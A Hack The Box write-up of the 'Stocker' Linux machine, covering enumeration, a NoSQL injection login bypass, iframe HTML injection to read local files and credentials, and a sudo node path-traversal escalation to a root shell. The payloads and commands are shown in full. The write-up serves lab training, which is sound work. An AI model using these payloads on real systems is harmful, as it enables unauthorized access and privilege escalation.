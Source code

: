 ```yaml
---
layout: post
title: "HTB: Stocker"
author: Andrew Cherney
date: 2023-07-16 11:44:17
tags: htb easy-box linux webapp nosqli 
icon: "assets/icons/stocker.png"
post_description: "Webdevs will cry after seeing this box. Imagine sanitizing your json that interacts with your API, or not using a vulnerable login portal. A healthy lack of trust in webdevs is all you need to hack this box."
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h1>Enumeration</h1>

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Stocker]
└──╼ $nmap -sC 10.10.11.196
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-25 10:51 CST
Nmap scan report for 10.10.11.196
Host is up (0.053s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp open  http
|_http-title: Did not follow redirect to http://stocker.htb
```

<h2>Port 80 - http</h2>

{% include img_link src="/img/stocker/Stocker_Front_Page" alt="Stocker_front_page" ext="png" trunc=600 %}

I look around and toss some scans at the site. There is clear reference to another site which serves as a shop, so I know there is some way to get to it. What ends up landing is my gobuster scan to find subdomains on the same host IP. 

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Stocker]
└──╼ $gobuster vhost -u http://stocker.htb -w /opt/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://stocker.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /opt/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2023/02/25 12:05:55 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.stocker.htb (Status: 302) [Size: 28]
```

<h2>dev.stocker.htb</h2>

![dev login](/img/stocker/Stocker_dev_login.png)

Round 2: time for some more scans and enumeration. There happens to be a cookie associated to this subdomain, with a **connect.sid** variable. From what I can tell it is a cookie set in the initial connection by Express. 

<h3>noSQL</h3>

In testing for database frameworks I come across [this noSQL injection for a login portal](https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass) where if you send json with operators equal to null it bypasses the login check and lets you in. 

```
POST /login HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 19
Origin: http://dev.stocker.htb
DNT: 1
Connection: close
Referer: http://dev.stocker.htb/login
Cookie: connect.sid=s%3AtDuWaN_AP-vy7ZNHLP3D4vhJbpWFoDrt.aKM4RjmXYuVZrkQunrIYT00O8mug4QjJItsnc73l%2F2A
Upgrade-Insecure-Requests: 1

{"username": {"$ne": null}, "password": {"$ne": null} }
```

<h2>Stockers Store</h2>

{% include img_link src="/img/stocker/Stocker_stock_page" alt="store_page" ext="png" trunc=600 %}

Now we are met with a store page that gives us the functionality of adding items to a card and purchasing the items, then we have the option of viewing the purchase order. Inspecting the actual packet which sends the purchase request there is json which defines each item and a post request is then made to **/api/order**.

<h1>User as angoose</h1>

<h2>html injection: iframes</h2>

The purchase order could let us inject html and read local files with iframes. Let's try to use 

```json
{"basket":[{"_id":"638f116eeb060210cbd83a8f","title":"<iframe src=file:///etc/passwd width=1000px height=1000px></iframe>","description":"It's a rubbish bin.","image":"bin.jpg","price":76,"currentStock":15,"__v":0,"amount":1}]}
```

![purchase order etc passwd](/img/stocker/Stocker_iframe_etc_passwd.png)

Local file read attained. Now I can change the source to **src=file:///var/www/dev/index.js** and read the index file for any reference to databases or other gold nuggets.

![index.js](/img/stocker/Stocker_index_js.png)

Oh, well that is simple. User angoose with password **IHeardPassphrasesArePrettySecure**.

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Stocker]
└──╼ $ssh angoose@stocker.htb
angoose@stocker:~$ cat user.txt
7721f67edaa172------------------
```

<h1>Root</h1>

<h2>Sudo perms</h2>

```bash
angoose@stocker:~$ sudo -l
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
angoose@stocker:~$ touch /usr/local/scripts/test.js
touch: cannot touch '/usr/local/scripts/test.js': Permission denied
```

GFTOBins has a sudo to root node command using <code>require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})</code> as the shell spawn within javascript. The last part to tie this together is using directory traversal to head to a writable directory. Creating a file named **shell.js** in the angoose home directory I run the sudo command: 

```bash
angoose@stocker:~$ sudo node /usr/local/scripts/../../../../home/angoose/shell.js
# cat /root/root.txt
2715c19b73755-------------------
```
